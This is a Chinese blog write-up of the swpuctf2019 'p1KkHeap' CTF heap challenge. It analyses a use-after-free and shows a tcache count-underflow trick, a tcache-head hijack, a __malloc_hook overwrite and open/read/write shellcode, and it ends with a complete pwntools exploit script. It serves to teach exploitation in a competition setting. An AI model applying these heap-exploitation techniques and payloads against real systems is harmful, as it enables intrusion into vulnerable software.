<!--yml
category: 未分类
date: 2022-04-26 14:36:25
-->

# swpuctf2019 p1KkHeap 详细题解_ha1vk的博客-CSDN博客

> 来源：[https://blog.csdn.net/seaaseesa/article/details/103450524](https://blog.csdn.net/seaaseesa/article/details/103450524)

# p1KkHeap

这是swpuctf2019的一题，让我们来详细分析一下

本题的知识点:tcache bin，unsorted bin,malloc hook

首先，我们检查一下程序的保护机制，发现保护全开



然后，我们用IDA分析一下

**最大允许创建0x100****的堆，并且最多有8****个堆**



漏洞点在这里，free后，只把大小置为0，而没有把堆指针置为0，**存在****UAF****漏洞**



本题，delete功能还有一个限制





**delete****功能只能用3****次，超过会结束程序**

然后是edit功能，根据数组里保存的大小读取字符，我们free后，那个大小设置为了0，因此就**不能用原来的下标去****edit****释放的堆，而应该create****后分配到原来的堆，再edit**



show功能，可以泄露信息



程序还有一个限制





**程序最多只能调用18****次功能，超过后程序结束。**

然后，我们看看给我们的**libc****版本为2.27**



程序还使用了沙箱机制，可能**禁用了某些系统调用**



我们检测一下



**execve****被禁用，意味着我们不能调用system****或onegadget****来getshell**

我们先做一个总结:

1.  **Delete****只能用3****次**
2.  **程序最多只能调用18****次功能**
3.  **程序中存在堆指针UAF****，可造成double free**
4.  **Libc****版本为2.27****，存在tcache****机制，且2.27****版本的tcache****不检查double free(****更高版本有检查)**
5.  **Show****功能可以用来泄露地址信息**
6.  **edit****功能可以用来修改**
7.  **execve****被禁用，我们应该构造shellcode****或者ROP****来直接读取flag**

首先想想，我们该如何触发shellcode或ROP，在这，**我们可以攻击****__malloc_hook****，将shellcode****的地址写入到__malloc_hook**，在这里，ROP显然很麻烦，因为ROP还要做栈转移，并且需要先前依靠一段shellcode来转移栈，**如果供我们存放****shellcode****的地方空间很小，那么我们可以考虑写一段简短的shellcode****，将栈转移**，但是，**如果我们有足够的空间来放****shellcode****，那么，直接把读取和输出flag****的shellcode****写到那个空间。**

对于可写shellcode的空间很小，我还想到了另外一种方法，那就是写一段简短的shellcode，来调用int mprotect(const void *start, size_t len, int prot)函数，将某地址处属性修改为可执行，比如，我们可以把某个堆修改为可执行，那么就能在堆里布下shellcode。

好吧，说了这么多，其实这题，我们是有足够的空间来写shellcode的，所以就不用那么麻烦。



**程序在****0x66660000****这个固定的地址处映射了****0x1000****大小的空间，并且属性为****RWX****，既可读写，也具有执行属性，并且地址固定为****0x66660000****，使得我们更加方便。**

所以，我们决定把shellcode写到0x66660000处，然后攻击malloc_hook,在malloc_hook处写入0x66660000，这样，当我们再次malloc时，就会执行shellcode。

那么，现在开始攻击吧

首先，需要泄露一些地址，那么需要用到unsorted bin，但是，由于tcache的存在，对应的tcache bin满7个，接下来的堆块才会放入unsorted bin。满7个，就必须delete 7次，本题最多只能用3次，显然这个方案不可行。让我们来看看tcache 相关的源代码

1.  **struct** malloc_par  
2.  {  
3.  /* Tunable parameters */  
4.  unsigned **long** trim_threshold;  
5.  INTERNAL_SIZE_T top_pad;  
6.  INTERNAL_SIZE_T mmap_threshold;  
7.  INTERNAL_SIZE_T arena_test;  
8.  INTERNAL_SIZE_T arena_max;  

10.  /* Memory map support */  
11.  **int** n_mmaps;  
12.  **int** n_mmaps_max;  
13.  **int** max_n_mmaps;  
14.  /* the mmap_threshold is dynamic, until the user sets 
15.  it manually, at which point we need to disable any 
16.  dynamic behavior. */  
17.  **int** no_dyn_threshold;  

19.  /* Statistics */  
20.  INTERNAL_SIZE_T mmapped_mem;  
21.  INTERNAL_SIZE_T max_mmapped_mem;  

23.  /* First address handed out by MORECORE/sbrk.  */  
24.  **char** *sbrk_base;  

26.  #if USE_TCACHE  
27.  /* Maximum number of buckets to use.  */  
28.  **size_t**** tcache_bins;**
29.  **size_t** tcache_max_bytes;  
30.  /* Maximum number of chunks in each bucket.  */  
31.  **size_t** tcache_count;  
32.  /* Maximum number of chunks to remove from the unsorted list, which 
33.  aren't used to prefill the cache.  */  
34.  **size_t** tcache_unsorted_limit;  
35.  #endif  
36.  };  

38.  **static** **struct** malloc_par mp_ =  
39.  {  
40.  .top_pad = DEFAULT_TOP_PAD,  
41.  .n_mmaps_max = DEFAULT_MMAP_MAX,  
42.  .mmap_threshold = DEFAULT_MMAP_THRESHOLD,  
43.  .trim_threshold = DEFAULT_TRIM_THRESHOLD,  
44.  #define NARENAS_FROM_NCORES(n) ((n) * (sizeof (long) == 4 ? 2 : 8))  
45.  .arena_test = NARENAS_FROM_NCORES (1)  
46.  #if USE_TCACHE  
47.  ,  
48.  .tcache_count = TCACHE_FILL_COUNT,  
49.  .tcache_bins = TCACHE_MAX_BINS,  
50.  .tcache_max_bytes = tidx2usize (TCACHE_MAX_BINS-1),  
51.  .tcache_unsorted_limit = 0 /* No limit.  */  
52.  #endif  
53.  };  

注意，**size_t**** tcache_bins;**是无符号的

然后，看这里

1.  #if USE_TCACHE  
2.  {  
3.  **size_t** tc_idx = csize2tidx (size);  

5.  **if** (tcache  
6.  && tc_idx < mp_.tcache_bins  
7.  && **tcache->counts[tc_idx] < mp_.tcache_count**)  
8.  {  
9.  tcache_put (p, tc_idx);  
10.  **return**;  
11.  }  
12.  }  
13.  #endif  

其中**counts****是有符号数组**

看似，好像不会出什么问题，我们来看看这样的C语言代码

1.  #include <stdio.h>  

3.  **int** main() {  
4.  **size_t** a = 7;  
5.  **int** b = -1;  
6.  printf("b<a? %d",b<a);  
7.  **return** 0;  
8.  }  

程序的执行结果



由此，**我们知道了，当一个有符号数和一个无符号数进行比较时，有符号数会先转换成无符号数，然后再进行比较。**

**重点在这**

那么，**假设，我们****double free****同一个堆，那么在tcache bin****里就会构成循环链表，此时count=2****，**然后，我们再**create 3****个一样大小的堆，那么count****就变成了-1**,此时，我们**再****delete****一个unsorted bin****范围的堆，这个堆就会放入unsorted bin**，然后我们用show功能就能泄露出libc中的指针。



形成双向链表，那么我们create后，写入一个新地址，那么新地址就会链接到tcache bin链表的后面，我们看看



那么，我们再malloc 2次，就可以分配到aaaaaaaa处，但是注意，**这种方法，我们只能攻击一次**，也就是说，我们攻击了malloc_hook后，就攻击不了0x66660000，攻击了0x66660000就攻击不了malloc_hook了，二者不可兼得。因为不再是循环链表，并且delete只能用3次，不能再构建循环链表了。

解决方法是，我们**用一次攻击，直接去攻击****tcache bin****的表头**，那么，下次，我们就能直接修改表头，来决定下一次堆分配到哪个地方。

**tcache bin****的表头是在堆中的，一般在第一个堆的前面某次，我们用IDA****找到**



我们找到了表头指针的位置，它**距离第一个堆的位置是****- 0x188****个字节。**

因此，我们要攻击这里，修改表头指针，这样就能决定下一次分配的位置了。

那么，我们需要先泄露第一个堆的地址

1.  #chunk0  
2.  create(0x100)  
3.  #chunk1，用来挡住chunk0与top块，这样chunk0放入unsorted bin时不会发生合并，指针就会保留在chunk0中  
4.  create(0x40)  

6.  #chunk0和自己形成双向链表  
7.  delete(0)  
8.  delete(0)  
9.  #泄露chunk0的堆地址  
10.  show(0)  
11.  sh.recvuntil('content: ')  
12.  heap_addr = u64(sh.recv(6).ljust(8,'\x00')) - 0x10  

14.  #得到tcache存放表头的地址  
15.  tcache_head_addr = heap_addr - 0x188  

得到了表头地址，那么我们就要开始攻击表头了

1.  #chunk2  
2.  create(0x100)  
3.  #将chunk0的fd指向表头指针处  
4.  edit(2,p64(tcache_head_addr))  
5.  #chunk3  
6.  create(0x100)  
7.  #chunk4，chunk4是tcache存放表头指针的位置，我们edit chunk4，就能修改tcache的表头  
8.  #现在tcache 的count变成了-1，由于是无符号数，导致比较时>7成立  
9.  create(0x100)  

现在chunk4就是表头指针处的空间，我们edit chunk4，就能修改表头指针

1.  #chunk0进入unsorted bin  
2.  delete(0)  
3.  #泄露main_arena+96的地址  
4.  show(0)  
5.  sh.recvuntil('content: ')  

7.  main_arena_96 = u64(sh.recv(6).ljust(8,'\x00'))  
8.  malloc_hook_addr = (main_arena_96 & 0xFFFFFFFFFFFFFF00) + (malloc_hook_s & 0xFF)  
9.  libc_base = malloc_hook_addr - malloc_hook_s  
10.  open_addr = libc_base + open_s  
11.  read_addr = libc_base + read_s  
12.  write_addr = libc_base + write_s  

我们先来攻击0x66660000,写入shellcode

1.  #将表头指向0x66660000，这样我们就能分配到这里了  
2.  edit(4,p64(0x66660000))  

4.  #'flag.txt'  
5.  shellcode = asm('mov rax,0x7478742E67616C66')  
6.  shellcode += asm('push 0x0')  
7.  shellcode += asm('push rax')  
8.  #rsi = 0  
9.  shellcode += asm('mov rsi,0')  
10.  shellcode += asm('mov rdi,rsp')  
11.  #call open  
12.  shellcode += asm('mov rax,' + hex(open_addr))  
13.  shellcode += asm('call rax')  
14.  #fd  
15.  shellcode += asm('mov rdi,rax')  
16.  #buf  
17.  shellcode += asm('mov rsi,rsp')  
18.  #len  
19.  shellcode += asm('mov rdx,0x30')  
20.  #call read  
21.  shellcode += asm('mov rax,' + hex(read_addr))  
22.  shellcode += asm('call rax')  
23.  #fd  
24.  shellcode += asm('mov rdi,1')  
25.  ##buf  
26.  shellcode += asm('mov rsi,rsp')  
27.  #len  
28.  shellcode += asm('mov rdx,0x30')  
29.  #call write  
30.  shellcode += asm('mov rax,' + hex(write_addr))  
31.  shellcode += asm('call rax')  

33.  #chunk5分配到了0x66660000  
34.  create(0x100)  
35.  #写入shellcode到0x66660000  
36.  edit(5,shellcode)  

接下来，我们攻击malloc_hook,然后触发malloc_hook

1.  #将malloc_hook设置为tcache bin表头  
2.  edit(4,p64(malloc_hook_addr))  
3.  #chunk6分配到malloc_hook处  
4.  create(0x100)  

6.  #写malloc_hook  
7.  edit(6,p64(0x66660000))  

9.  #触发malloc hook去执行我们在0x66660000处布下的shellcode  
10.  create(0x1)  

最终，我们得到了flag



综上，我们的exp脚本如下

1.  #coding:utf8  
2.  #思想:攻击tcache表头  
3.  **from** pwn **import** *  

5.  #sh = process('./p1KkHeap')  
6.  context(arch='amd64',os='linux')  
7.  sh = remote('39.98.64.24',9091)  
8.  #libc_path = '/lib/x86_64-linux-gnu/libc-2.27.so'  
9.  libc_path = './libc.so.6'  
10.  libc = ELF(libc_path)  
11.  malloc_hook_s = libc.symbols['__malloc_hook']  
12.  open_s = libc.sym['open']  
13.  read_s = libc.sym['read']  
14.  write_s = libc.sym['write']  

16.  **def** create(size):  
17.  sh.sendlineafter('Your Choice:','1')  
18.  sh.sendlineafter('size:',str(size))  

20.  **def** show(index):  
21.  sh.sendlineafter('Your Choice:','2')  
22.  sh.sendlineafter('id:',str(index))  

24.  **def** edit(index,content):  
25.  sh.sendlineafter('Your Choice:','3')  
26.  sh.sendlineafter('id:',str(index))  
27.  sh.sendafter('content:',content)  

29.  **def** delete(index):  
30.  sh.sendlineafter('Your Choice:','4')  
31.  sh.sendlineafter('id:',str(index))  

33.  #chunk0  
34.  create(0x100)  
35.  #chunk1，用来挡住chunk0与top块，这样chunk0放入unsorted bin时不会发生合并，指针就会保留在chunk0中  
36.  create(0x40)  

38.  #chunk0和自己形成双向链表  
39.  delete(0)  
40.  delete(0)  
41.  #泄露chunk0的堆地址  
42.  show(0)  
43.  sh.recvuntil('content: ')  
44.  heap_addr = u64(sh.recv(6).ljust(8,'\x00')) - 0x10  

46.  #得到tcache存放表头的地址  
47.  tcache_head_addr = heap_addr - 0x188  

49.  #chunk2  
50.  create(0x100)  
51.  #将chunk0的fd指向表头指针处  
52.  edit(2,p64(tcache_head_addr))  
53.  #chunk3  
54.  create(0x100)  
55.  #chunk4，chunk4是tcache存放表头指针的位置，我们edit chunk4，就能修改tcache的表头  
56.  #现在tcache 的count变成了-1，由于是无符号数，导致比较时>7成立  
57.  create(0x100)  
58.  #chunk0进入unsorted bin  
59.  delete(0)  
60.  #泄露main_arena+96的地址  
61.  show(0)  
62.  sh.recvuntil('content: ')  

64.  main_arena_96 = u64(sh.recv(6).ljust(8,'\x00'))  
65.  malloc_hook_addr = (main_arena_96 & 0xFFFFFFFFFFFFFF00) + (malloc_hook_s & 0xFF)  
66.  libc_base = malloc_hook_addr - malloc_hook_s  
67.  open_addr = libc_base + open_s  
68.  read_addr = libc_base + read_s  
69.  write_addr = libc_base + write_s  

72.  #将表头指向0x66660000，这样我们就能分配到这里了  
73.  edit(4,p64(0x66660000))  

75.  #'flag.txt'  
76.  shellcode = asm('mov rax,0x7478742E67616C66')  
77.  shellcode += asm('push 0x0')  
78.  shellcode += asm('push rax')  
79.  #rsi = 0  
80.  shellcode += asm('mov rsi,0')  
81.  shellcode += asm('mov rdi,rsp')  
82.  #call open  
83.  shellcode += asm('mov rax,' + hex(open_addr))  
84.  shellcode += asm('call rax')  
85.  #fd  
86.  shellcode += asm('mov rdi,rax')  
87.  #buf  
88.  shellcode += asm('mov rsi,rsp')  
89.  #len  
90.  shellcode += asm('mov rdx,0x30')  
91.  #call read  
92.  shellcode += asm('mov rax,' + hex(read_addr))  
93.  shellcode += asm('call rax')  
94.  #fd  
95.  shellcode += asm('mov rdi,1')  
96.  ##buf  
97.  shellcode += asm('mov rsi,rsp')  
98.  #len  
99.  shellcode += asm('mov rdx,0x30')  
100.  #call write  
101.  shellcode += asm('mov rax,' + hex(write_addr))  
102.  shellcode += asm('call rax')  

104.  #chunk5分配到了0x66660000  
105.  create(0x100)  
106.  #写入shellcode到0x66660000  
107.  edit(5,shellcode)  

109.  **print** 'libc_base=',hex(libc_base)  
110.  **print** 'malloc_hook_addr=',hex(malloc_hook_addr)  

113.  #将malloc_hook设置为tcache bin表头  
114.  edit(4,p64(malloc_hook_addr))  
115.  #chunk6分配到malloc_hook处  
116.  create(0x100)  

118.  #写malloc_hook  
119.  edit(6,p64(0x66660000))  

121.  #触发malloc hook去执行我们在0x66660000处布下的shellcode  
122.  create(0x1)  

124.  sh.interactive()  

本题，**我学到了绕过****tcache bin****的新方法，就是使得tcache bin****的count****为负数，还有就是攻击表头，在这次碰巧学到了，这是以前我不知道的。**